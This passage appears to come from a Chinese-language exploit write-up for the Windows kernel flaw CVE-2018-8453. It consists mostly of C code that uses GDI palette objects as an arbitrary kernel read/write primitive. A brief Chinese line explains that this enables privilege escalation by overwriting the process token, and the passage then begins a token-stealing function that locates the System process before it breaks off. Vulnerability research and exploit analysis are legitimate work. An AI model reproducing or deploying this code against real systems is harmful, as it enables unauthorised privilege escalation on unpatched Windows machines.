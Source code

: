 ```
ULONG64 ReadDataByPalette(HPALETTE hManager, HPALETTE hWorker, DWORD dwStart, DWORD dwEntries, PVOID pTargetAddress)
{
    ULONG64 ulData = 0;
 
    if (!SetPaletteTarget(hManager, dwStart, dwEntries, pTargetAddress))
    {
        goto exit;
    }
 
    if (!GetPaletteEntries(hWorker, 0, dwEntries, (PPALETTEENTRY)&ulData))
    {
        ShowError("GetPaletteEntries", GetLastError());
        goto exit;
    }
 
exit:
    return ulData;
}
 
BOOL WriteDataByPalette(HPALETTE hManager, HPALETTE hWorker, DWORD dwStart, DWORD dwEntries, PVOID pTargetAddress, ULONG64 ulValue)
{
    BOOL bRet = TRUE;
 
    if (!SetPaletteTarget(hManager, dwStart, dwEntries, pTargetAddress))
    {
        bRet = FALSE;
        goto exit;
    }
 
    if (!SetPaletteEntries(hWorker, 0, dwEntries, (PPALETTEENTRY)&ulValue))
    {
        bRet = FALSE;
        ShowError("SetPaletteEntries", GetLastError());
        goto exit;
    }
 
exit:
    return bRet;
}
```  
  
  
  
```
```  
  
  
可以进行任意地址读写，就可以通过修改Token来实现提权：  
```
BOOL EnablePrivilege_CVE_2018_8453(HPALETTE hManager, HPALETTE hWorker)
{
    BOOL bRet = TRUE;
    DWORD dwEntries = sizeof(ULONG64) / sizeof(PALETTEENTRY);
    DWORD dwFirstColorOffset = 0x78;
    DWORD dwStart = (0x800 - 0x88 + dwFirstColorOffset) / 4;
 
    // 获取System进程的EPROCESS
    ULONG64 ulSystemEprocess = GetSystemEprocessByPalette(hManager, hWorker, dwStart, dwEntries);
    if (!ulSystemEprocess)
    {
        bRet = FALSE;
        goto exit;
    }
     
```